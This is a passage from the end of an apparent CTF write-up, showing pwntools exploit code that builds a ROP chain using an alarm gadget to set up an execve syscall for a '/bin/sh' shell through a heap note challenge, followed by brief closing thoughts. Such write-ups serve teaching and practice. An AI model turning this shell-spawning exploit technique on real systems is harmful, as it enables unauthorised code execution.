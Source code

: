 ```python
pload += p64(rdi)
pload += p64(bss_buf)
pload += p64(edits)
pload += p64(rdi)
pload += p64(0x3b)
pload += p64(alarm_plt)
pload += p64(rdi)
pload += p64(0x3b)
pload += p64(alarm_plt)
pload += p64(rdi)
pload += p64(bss_buf)
pload += p64(syscall)

add("A", "B", 60, "ABCD")
sleep(2)
add("A", "B", 600, pload )

sleep(3)
## for calling edit in the rop
p.sendafter("Note ID: ", "//bin/sh")
## may also be needed, threads are being weird - i think our heap note thread is intercepting our stdin >:(.
#p.send("//bin/sh")
#p.send("//bin/sh")


p.interactive()
```

Note: I sent "//bin/sh" because for some reason the first "/" wasnt sending properly. Still dont know why - it works tho.

# Closing thoughts

This CTF was fun. I was expecting this challenge to be a lot more painful, but I guess thats just what CTF does to your brain lol. 

Thanks for reading, see you again... Soon... Maybe :P.

